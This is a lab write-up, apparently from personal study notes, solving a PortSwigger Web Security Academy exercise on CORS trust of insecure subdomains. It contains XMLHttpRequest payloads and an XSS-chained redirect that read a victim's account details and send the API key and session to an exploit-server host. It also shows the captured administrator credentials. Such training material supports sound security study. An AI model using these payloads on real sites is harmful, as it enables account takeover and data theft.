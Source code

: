# CORS vulnerability with trusted insecure protocols

## This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol.

## To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open(
    "get",
    "https://YOUR-LAB-ID.web-security-academy.net/accountDetails",
    true
  );
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location =
      "https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=" +
      this.responseText;
  }
</script>
```

### HINT:

```html
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	function reqListener() {
	location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText;
	};
%3c/script>
```

---

### step 1

login in and go account section
see history in burpsuite select account-details and sent to repeater
got to home choose any product then click on stock you will get another url with different subdoamin name
`http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=4<#HINT>&storeId=1`

### step2

add `Origin: http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=1&storeId=1`
you will get response
`Access-Control-Allow-Origin: http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=1&storeId=1`

### step3 apply payload in expolit section

### HINT:

```html
<script>
  document.location =
    "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1";
</script>
```

```subdomain_url
http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=4&storeId=1
```

```html
<script>
  document.location =
    "http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0aed003d0361c2148095a4e800e300ff.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a27006c0380c2168057a36c01e300d2.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1";
</script>
```

deliver to victim

go to expolit log section

```javascript
{%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22ISPlm6GR5xNWobDqdasO99acigUDWktd%22,%20%20%22sessions%22:%20[%20%20%20%20%22O84JikMdp0tkYOpx4RrVXrfZYW6JnGIo%22%20%20]}
```

decoded as url in burpsuite

```json
{
  "username": "administrator",
  "email": "",
  "apikey": "ISPlm6GR5xNWobDqdasO99acigUDWktd",
  "sessions": ["O84JikMdp0tkYOpx4RrVXrfZYW6JnGIo"]
}
```
